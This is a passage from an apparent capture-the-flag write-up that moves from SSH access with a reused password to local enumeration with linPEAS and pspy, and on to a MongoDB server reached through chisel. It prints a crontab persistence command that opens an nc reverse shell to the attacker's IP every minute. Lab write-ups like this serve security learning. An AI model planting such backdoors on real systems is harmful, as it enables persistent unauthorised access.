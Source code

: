 This does not find anything useful.

However, within this container, we have `ssh` installed so we can try to `ssh` to the host at `10.10.11.155`. Using the username `saul` that we saw before with the password that worked before for Bolt (`jeO09ufhWD<s`) gets us access to the main machine.

We can now run `cat user.txt` to get the `user.txt` flag.

## Lateral Movement

We can get some persistance by running `(crontab -l ; echo "* * * * * nc -e /bin/bash 10.10.14.98 9001")|crontab 2> /dev/null` (based on [this command](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md#crontab---reverse-shell)). If we ever lose the shell, just run `nc -nvlp 9001` and wait for at most 1 minute.

Upload linPEAS and run with `./linpeas.sh -a 2>&1 | tee linpeas_report.txt`. Download the report with `download linepeas_report.txt` in the local terminal. You can open [linpeas_report.txt](./linpeas_report.txt) with `less -R linpeas_report.txt`.

Upload [pspy](https://github.com/DominicBreuker/pspy) and execute to see if there are any unusual processes. Make sure to use the 32-bit version.

Immediately we see the below line:

```
2022/07/26 04:34:10 CMD: UID=999  PID=1214   | mongod --smallfiles --replSet rs0 --oplogSize 128 --bind_ip_all
```

So, there is probably a mongodb server running.

The output below is also interesting:

```
2022/07/26 04:36:01 CMD: UID=0    PID=124521 | /usr/sbin/CRON -f
2022/07/26 04:36:01 CMD: UID=0    PID=124525 | /bin/sh -c cp /root/.backup/passwd /etc/passwd
2022/07/26 04:36:01 CMD: UID=0    PID=124526 | /bin/sh -c python3 /root/.backup/update_mongo.py
2022/07/26 04:36:01 CMD: UID=0    PID=124528 | /bin/sh -c cp /root/.backup/passwd /etc/passwd
```

There is a file `/root/.backup/update_mongo.py` that is ran on a schedule.

We run `(netstat -punta || ss --ntpu)` to see what is available on open ports. Interestingly, sometimes when running this command the below line appears:

```
tcp        0      0 172.17.0.1:34506        172.17.0.2:27017        TIME_WAIT   -
```

`27017` is the default mongodb port so we have likely just found a mongodb server at `172.17.0.2:27017`. Running `curl 172.17.0.2:27017` prints "It looks like you are trying to access MongoDB over HTTP on the native driver port," so this is mongodb.

The commands `mongo` and `mongosh` are not available on the box so we have to forward the port to our machine. Unfortunately, I could not get ssh port forwarding to work (ssh connections just timed out). Instead, we can use [jpillora/chisel](https://github.com/jpillora/chisel) to forward the port. According to the [GitHub repo](https://github.com/jpillora/chisel), "Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH."
